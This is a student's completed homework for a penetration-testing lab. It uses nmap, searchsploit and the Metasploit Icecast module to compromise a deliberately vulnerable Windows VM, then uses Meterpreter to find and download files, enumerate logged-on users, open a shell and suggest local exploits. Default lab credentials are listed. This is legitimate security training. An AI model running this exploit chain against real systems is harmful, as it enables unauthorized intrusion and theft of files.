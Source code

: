 ## Homework 17: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](unit_17/homework/Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/96030770/166118761-cc4b365a-9051-4992-b84c-eb29107fa467.png)

 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit
 
 ![image](https://user-images.githubusercontent.com/96030770/166118783-468e7b58-4866-402b-acad-0a812d96d570.png)


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast
 
 ![image](https://user-images.githubusercontent.com/96030770/166118815-682ac0eb-5570-4327-80b0-273a20c3c23e.png)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
 
![image](https://user-images.githubusercontent.com/96030770/166118834-09a90557-f691-404c-a9d6-4542c81ab043.png)


5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20

![image](https://user-images.githubusercontent.com/96030770/166118861-315f1723-dd0c-42af-b2ab-e1d628146ea9.png)

 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run

![image](https://user-images.githubusercontent.com/96030770/166118875-3e495379-2035-4617-a91a-454d578854e9.png)

 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile.txt

![image](https://user-images.githubusercontent.com/96030770/166118922-1ef396d9-f715-4220-a74a-1e3f3092faea.png)

  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe.txt
 
 ![image](https://user-images.githubusercontent.com/96030770/166118954-d17c7698-2028-44c1-b1ff-189ff57bffde.png)

 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download c:\\Users\\IEUser\\Documents\\Drink.recipe.txt
                download c:\\Users\\IEUser\\Documents\\user.secretfile.txt
                
                
 ![image](https://user-images.githubusercontent.com/96030770/166118963-5bdfa3cc-69bd-4d24-9878-f48c2f5b0818.png)


![image](https://user-images.githubusercontent.com/96030770/166118971-1a569452-febc-475f-960f-0a2cf9eb762e.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

      > Answer: run post/multi/recon/local_exploit_suggester

![image](https://user-images.githubusercontent.com/96030770/166118994-004b3698-009d-4774-b059-8e14a7624cae.png)


#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
 
 ![image](https://user-images.githubusercontent.com/96030770/166119012-02229902-b0f8-4a30-9e64-5c995b54d9dc.png)

     
B. Open a Meterpreter shell. 
 
  > Answer: shell
 
 ![image](https://user-images.githubusercontent.com/96030770/166119018-8320ca20-0d98-448a-9daa-bd2fca25c57c.png)

 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo

![image](https://user-images.githubusercontent.com/96030770/166119031-95fa9a16-b2ca-40c4-983a-437d26751ca9.png)


---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

